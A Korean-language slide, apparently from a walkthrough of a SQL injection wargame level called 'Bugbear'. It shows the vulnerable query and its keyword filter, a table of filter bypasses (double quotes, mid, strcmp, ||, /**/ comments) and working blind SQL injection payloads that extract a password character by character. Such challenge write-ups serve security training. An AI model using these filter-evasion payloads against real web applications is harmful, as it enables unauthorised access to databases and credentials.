

# Level 13 (Bugbear)
Blind Sql Injection을 위해 사용될 쿼리문
where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}
pw, no에 값을 전달해서 Sql Injection

preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])
‘가 필터링 되므로 no에 Sql Injection
‘ ⇔ “
substring 함수 ⇔ mid 함수
= ⇔ strcmp 함수
Or ⇔ ||
Space ⇔ /**/

?no=1 or (1-STRCMP(mid(pw,1,1),”a”))%2 %23;
∵ Strcmp는 참이면 0을 그 외에는 -1 또는 1을 반환한다.
?no=1/**/||/**/(1-STRCMP(mid(pw,1,1),”a”))%2/**/%23’;

9 / 8